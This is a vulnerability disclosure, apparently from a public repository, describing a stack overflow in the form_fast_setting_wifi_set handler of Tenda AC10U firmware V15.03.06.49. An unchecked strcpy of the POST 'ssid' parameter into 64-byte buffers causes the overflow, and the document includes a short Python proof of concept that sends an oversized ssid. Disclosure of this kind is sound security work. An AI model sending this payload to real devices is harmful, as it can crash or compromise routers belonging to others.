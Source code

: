 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3795.html

## Affected version

AC10U v1.0 Firmware V15.03.06.49

## Vulnerability details

The Tenda AC10U v1.0 Firmware V15.03.06.49 firmware has a stack overflow vulnerability in the `form_fast_setting_wifi_set` function. The `ssid` variable receives the `ssid` parameter from a POST request and is later assigned to the `ssid_24g` and `ssid_5g` variable, which is fixed at 64 bytes. However, since the user can control the input of  `ssid`, the statement `strcpy(ssid_24g, ssid);`and `strcpy(ssid_5g, ssid);` can cause a buffer overflow. The user-provided  `ssid` can exceed the capacity of the `ssid_24g` and `ssid_5g` array, triggering this security vulnerability.

![image-20240313145111247](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313145111247.png)

![image-20240313145126123](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313145126123.png)

## POC

```python
import requests
ip = '192.168.84.101'
url = f'http://{ip}/goform/fast_setting_wifi_set'

payload = {
    'ssid': 'a' * 1000
}

r = requests.post(url=url, data=payload)
print(r.content)
```

![image-20240313145152680](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313145152680.png)
